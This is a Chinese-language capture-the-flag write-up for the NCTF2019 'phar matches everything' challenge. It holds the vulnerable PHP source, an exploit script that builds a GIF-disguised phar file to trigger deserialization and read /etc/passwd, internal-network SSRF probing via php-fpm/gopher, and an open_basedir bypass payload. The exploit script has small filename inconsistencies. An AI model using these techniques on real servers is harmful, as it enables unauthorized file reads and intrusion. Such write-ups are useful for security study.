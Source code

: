 ```yaml
---
title: "[NCTF2019]phar matches everything"
date: 2020-05-02
tags: [CTF,WP,PHP,反序列化]
categories:
- [CTF, PHP]
- [CTF, WP]
comments: false
---
```


# [NCTF2019]phar matches everything

<!-- more -->

## 分析

**源码**

```
<?php
class Easytest{
    protected $test;
    public function funny_get(){
        return $this->test;
    }
}

class Main {
    public $url;
    public function curl($url){
        $ch = curl_init();  
        curl_setopt($ch,CURLOPT_URL,$url);
        curl_setopt($ch,CURLOPT_RETURNTRANSFER,true);
        $output=curl_exec($ch);
        curl_close($ch);
        return $output;
    }
public function __destruct(){
        $this_is_a_easy_test=unserialize($_GET['careful']);
        if($this_is_a_easy_test->funny_get() === '1'){
            echo $this->curl($this->url);
        }
    }    
}
if(isset($_POST["submit"])) {
    $check = getimagesize($_POST['name']);
    if($check !== false) {
        echo "File is an image - " . $check["mime"] . ".";
    } else {
        echo "File is not an image.";
    }
}
?>
```

### 两次序列化

第一个是利用`getimagesize($file_path)`触发`phar`反序列化，触发的反序列化影响Main类

第二个很简单,要是`Easytest`中的`test=1`

利用`curl`读取文件

**exp.php**

```
<?php

class Easytest {
	protected $test = '1';
}

class Main {
	public $url ='file:///etc/passwd';
}

$a = new Easytest();
echo serialize($a);
echo urlencode(serialize($a));
$b = new Main();
@unlink("exp.phar");
$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub('GIF89a' . "<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($b);
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
rename('exp.char', "exp.gif");
```

首先上传`exp.gif`

[![mark](https://blogjpg.yanmy.top/blog/20200502/6dYAPUL1PxQC.png?imageslim)](https://blogjpg.yanmy.top/blog/20200502/6dYAPUL1PxQC.png?imageslim)

然后利用`catchmime.php`传参触发反序列化

`careful`用来触发2

```
name`用来触发`phar
```

[![mark](https://blogjpg.yanmy.top/blog/20200502/IvRGNO5gryyM.png?imageslim)](https://blogjpg.yanmy.top/blog/20200502/IvRGNO5gryyM.png?imageslim)

改变`url`读取hosts,因为这道题想让我们打内网

[![mark](https://blogjpg.yanmy.top/blog/20200502/ARLi3vvvsEdD.png?imageslim)](https://blogjpg.yanmy.top/blog/20200502/ARLi3vvvsEdD.png?imageslim)

[![mark](https://blogjpg.yanmy.top/blog/20200502/ctjN6Nkrlpv9.png?imageslim)](https://blogjpg.yanmy.top/blog/20200502/ctjN6Nkrlpv9.png?imageslim)

我读取到了`173.187.197.10`,再用http协议读一下`http://173.187.197.10`,发现就是当前页面,再读一下 `http://173.187.197.11`

[![mark](https://blogjpg.yanmy.top/blog/20200502/wgylUttLBoAT.png?imageslim)](https://blogjpg.yanmy.top/blog/20200502/wgylUttLBoAT.png?imageslim)

### php-fpm未授权漏洞

[php-fpm未授权漏洞](https://evoa.me/index.php/archives/52/#toc-SSRFGopher)

使用链接中的`exp`

再使用`gopher`协议使用exp生成的`payload`

先打`phpinfo();`可以得知需要绕过`open_basedir`

加上绕过`open_basedir`的payload就可以了

```
<?php mkdir('/tmp/fuck');chdir('/tmp/fuck');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');print_r(scandir('/'));readfile('/flag');?>
```

flag在根目录

[![mark](https://blogjpg.yanmy.top/blog/20200502/MkFvqjnF23zV.png?imageslim)](https://blogjpg.yanmy.top/blog/20200502/MkFvqjnF23zV.png?imageslim)

[![mark](https://blogjpg.yanmy.top/blog/20200502/cCKxtrWK4nWi.png?imageslim)](https://blogjpg.yanmy.top/blog/20200502/cCKxtrWK4nWi.png?imageslim)

[![mark](https://blogjpg.yanmy.top/blog/20200502/VDMHTyd45wxR.png?imageslim)](https://blogjpg.yanmy.top/blog/20200502/VDMHTyd45wxR.png?imageslim)

## Reference

[[NCTF2019\]phar matches everything(phar反序列化)](https://guokeya.github.io/post/1byvbzb_I/)